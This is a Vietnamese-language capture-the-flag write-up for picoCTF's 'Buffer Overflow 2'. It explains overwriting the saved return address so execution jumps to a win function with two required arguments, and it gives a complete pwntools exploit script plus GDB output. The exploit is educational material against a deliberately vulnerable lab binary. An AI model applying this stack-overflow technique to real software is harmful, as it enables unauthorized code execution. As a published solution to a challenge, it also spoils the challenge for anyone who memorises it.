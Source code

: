 # Buffer Overflow 2

## Description

> Control the return address and arguments

## Solution

Các bước tìm offset đến EIP vẫn như BOF0 và BOF1 nên mình sẽ skip qua bước này

Trong source code có đoạn&#x20;

```c
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
```

Tức là khi ta ghi đè EIP với địa chỉ của hàm win thì ta cần phải truyền thêm 2 giá trị arg1 và arg2 để vượt điều kiện

Khi ta nhập 1 lượng buffer đủ nhiều để đến EIP và sau khi return nó sẽ nhảy sang hàm win. Đặc biệt ta cần phải tạo lại một cái stack cho hàm win tương tự như vậy:

<figure><img src="../../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>

## Exploit

```python
#!/usr/bin/python3

from pwn import *

# context.log_level = 'debug' 
exe = context.binary = ELF('./vuln', checksec=False)



# Shorthanding functions for input/output
info = lambda msg: log.info(msg)
s = lambda data: p.send(data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
r = lambda: p.recv()
rl = lambda: p.recvline()
rall = lambda: p.recvall()

# GDB scripts for debugging
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b*win
c
''')

p = remote('saturn.picoctf.net', 51113) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB: 
    GDB()
    input()

# ===========================================================
#                          EXPLOIT 
# ===========================================================

payload = b'A'*112 # buf
payload += p32(exe.sym['win']) # EIP = win addr
payload += b'A'*4 # Junk for saved RBP
payload += p32(0xCAFEF00D) # arg1
payload += p32(0xF00DF00D) # arg2

sla(b'string:',payload)
p.interactive()

```

```bash
➜  BOF_2 python3 exploit.py
[+] Starting local process '/home/alter/Pico/pwn/BOF_2/vuln': pid 7109
[!] ASLR is disabled!
[*] Switching to interactive mode

\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08AAAA
FLAG{helloiloveyou}
```

### GDB explain

Để hiểu rõ exploit hơn ta có thể dùng GDB để debug thử

* Breakpoint tại win và xem payload của chúng ta như thế nào

```bash
Breakpoint 1, 0x08049296 in win ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────── registers ────
$eax   : 0x81
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x2aa5c8a0  →  0x00000000
$edx   : 0x0
$esp   : 0xffffccd0  →  0x41414141 ("AAAA"?)
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x080493f0  →  <__libc_csu_init+0000> endbr32
$edi   : 0x2aaa9b60  →  0x00000000
$eip   : 0x08049296  →  <win+0000> endbr32
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
───────────────────────────────────────────────────────────────── stack ────
0xffffccd0│+0x0000: 0x41414141   ← $esp
0xffffccd4│+0x0004: 0xcafef00d
0xffffccd8│+0x0008: 0xf00df00d
0xffffccdc│+0x000c: 0x00000300
0xffffcce0│+0x0010: 0xffffcd00  →  0x00000001
0xffffcce4│+0x0014: 0x2aa5ae34  →  0x00228d2c
0xffffcce8│+0x0018: 0x00000000
0xffffccec│+0x001c: 0x2a856c75  →   add esp, 0x10
─────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049289 <__do_global_dtors_aux+0029> lea    esi, [esi+eiz*1+0x0]
    0x8049290 <frame_dummy+0000> endbr32
    0x8049294 <frame_dummy+0004> jmp    0x8049220 <register_tm_clones>
●→  0x8049296 <win+0000>       endbr32
    0x804929a <win+0004>       push   ebp
    0x804929b <win+0005>       mov    ebp, esp
    0x804929d <win+0007>       push   ebx
    0x804929e <win+0008>       sub    esp, 0x54
    0x80492a1 <win+000b>       call   0x80491d0 <__x86.get_pc_thunk.bx>
─────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x8049296 in win (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────── trace ────
[#0] 0x8049296 → win()
────────────────────────────────────────────────────────────────────────────
gef➤  i r
eax            0x81                0x81
ecx            0x2aa5c8a0          0x2aa5c8a0
edx            0x0                 0x0
ebx            0x41414141          0x41414141
esp            0xffffccd0          0xffffccd0
ebp            0x41414141          0x41414141
esi            0x80493f0           0x80493f0
edi            0x2aaa9b60          0x2aaa9b60
eip            0x8049296           0x8049296 <win>
eflags         0x286               [ PF SF IF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63
gef➤  i r ebp esp
ebp            0x41414141          0x41414141
esp            0xffffccd0          0xffffccd0
gef➤  x $eip
0x8049296 <win>:        0xfb1e0ff3
```

Ta có thể thấy sau khi nhảy sang hàm win, payload của chúng ta đã ghi đè saved RBP với giá trị **0x41414141**
